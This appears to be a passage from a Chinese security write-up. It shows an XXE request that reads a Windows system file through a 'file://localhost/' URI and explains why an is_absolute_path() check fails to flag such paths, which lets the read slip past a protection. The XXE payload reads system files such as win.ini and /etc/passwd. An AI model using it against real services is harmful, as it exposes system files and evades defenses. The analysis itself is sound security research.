 [![](https://p2.ssl.qhimg.com/t01dd3ebf46f5062b69.png)](https://p2.ssl.qhimg.com/t01dd3ebf46f5062b69.png)

当发送如下请求时

```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;&lt;!DOCTYPE foo [   &lt;!ELEMENT foo ANY &gt;  &lt;!ENTITY xxe SYSTEM "file://localhost/c:/windows/win.ini" &gt;]&gt;&lt;foo&gt;&amp;xxe;&lt;/foo&gt;
```

上面is_absolute_path()函数中path参数值会是”localhost/c:/windows/win.ini”。linux系统情况时，path的值会是类似”localhost/etc/passwd”。分析函数代码，可以看出这种情况下is_absolute_path()函数返回值永远是false。

```
function is_absolute_path(path, is_windows) `{`

    // Windows - C:\\windows
    if (is_windows) `{`

        if (path[1] == ':')
        `{`
            var drive = path[0].toLowerCase()
            if (drive &gt;= 'a' &amp;&amp; drive &lt;= 'z')
            `{`
                return true
            `}`
        `}`
    `}`

    // Unices - /root/
    return path[0] === '/'
`}`
```

[![](https://p3.ssl.qhimg.com/t01f635ca3681d40972.png)](https://p3.ssl.qhimg.com/t01f635ca3681d40972.png)



## 参考

[file URI scheme](https://en.wikipedia.org/wiki/File_URI_scheme)<br>[XXE修复方案参考](https://blog.csdn.net/oscarli/article/details/94735001)
